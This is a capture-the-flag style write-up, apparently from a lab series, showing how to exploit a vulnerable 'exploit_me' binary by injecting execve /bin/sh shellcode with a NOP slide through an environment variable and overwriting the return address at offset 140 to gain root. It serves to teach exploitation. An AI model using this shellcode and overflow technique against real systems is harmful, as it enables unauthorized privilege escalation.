

# EXPLOIT 3: ANOTHER BUFFER OVERFLOW METHOD

Returning to `zaz` user, we can explore an alternative method to exploit the binary.

## Shellcode injection

Instead of performing a `Ret2libc` attack, we can opt for a `Shellcode injection`. The objective of this attack is to inject the opcode of a shellcode into the stack after overflowing the buffer.

We'll be injecting [this shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) for this exploit. First, we need to place the shellcode, with a NOP-slide preceding it, into the environment variables which will shorten its address and make it more accessible.

```sh
export SHELLCODE=$(python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
```

Next, we need obtain the address of the environment variable we set up in order to construct the payload. We'll accomplish this using **gdb**.

```
> b main
> r
> call (char *)getenv("SHELLCODE")
```

The address of the environment variable is `0xbffff8a7`. We'll examine the next 50 addresses to identify a location where there will be only NOP-slide instructions in the opcode, ensuring a safe landing for our shellcode.

```
x/50x 0xbffff8a7
```



We can use any address that contains only NOP-slide instructions for the payload. For instance, `0xbffff8d7` is a suitable choice.\
Finally, since we know from the previous exploit in [writeup1](../writeup1.md) that the offset is at 140, we can construct the payload using all the information we've gathered as follows:

```sh
./exploit_me $(python -c 'print("A"*140 + "\xd7\xf8\xff\xbf")')
```

And we're **root**!